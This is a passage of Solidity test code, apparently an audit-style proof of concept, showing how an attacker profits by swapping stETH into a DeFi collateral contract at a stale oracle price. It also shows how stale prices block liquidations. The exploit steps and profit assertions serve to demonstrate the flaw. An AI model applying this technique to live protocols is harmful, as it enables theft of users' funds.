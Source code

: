 ```solidity
        vm.startPrank(attacker);
        
        // Give attacker 100 stETH (real value: $150,000)
        deal(stETH, attacker, 100e18);
        IERC20(stETH).approve(address(daoCollateral), 100e18);
        
        // Swap at stale price ($200,000 worth of ETH0)
        uint256 ethOReceived = daoCollateral.swap(stETH, 100e18, 0);
        
        vm.stopPrank();
        
        // Verify exploitation
        assertGt(ethOReceived, 150000e18); // Received more than actual value
        assertEq(ethOReceived, 200000e18); // Got full stale price value
        
        // Attacker profit: $50,000 (25% of position)
        uint256 profit = ethOReceived - 150000e18;
        assertEq(profit, 50000e18);
        
        console.log("Stale price:", stalePrice);
        console.log("ETH0 received:", ethOReceived);
        console.log("Attacker profit:", profit);
    }
    
    function testLiquidationFailure() public {
        // User deposits ETH at $2000
        address user = address(0x123);
        vm.startPrank(user);
        
        deal(address(weth), user, 10e18); // 10 ETH
        weth.approve(address(daoCollateral), 10e18);
        
        // Swap 10 ETH for ETH0 (gets $20,000 worth)
        uint256 ethOReceived = daoCollateral.swap(address(weth), 10e18, 0);
        
        vm.stopPrank();
        
        // Oracle stops updating
        vm.warp(block.timestamp + 4 days);
        
        // ETH price drops 40% to $1200, but oracle shows $2000
        // User's 10 ETH now worth $12,000, but oracle shows $20,000
        // Position should be liquidated but isn't due to stale price
        
        bool shouldLiquidate = daoCollateral.checkLiquidation(user);
        assertFalse(shouldLiquidate); // Incorrectly not flagged for liquidation
        
        // When oracle finally updates after 7 days
        vm.warp(block.timestamp + 3 days + 1); // Just past timeout
        mockChainlinkAggregator.setPrice(1200e8);
        mockChainlinkAggregator.setTimestamp(block.timestamp);
        
        // Now liquidation check works, but damage is done
        shouldLiquidate = daoCollateral.checkLiquidation(user);
        assertTrue(shouldLiquidate);
        
        console.log("Delayed liquidation created bad debt during stale period");
    }
}

contract MockChainlinkAggregator {
    int256 private price;
    uint256 private updatedAt;
```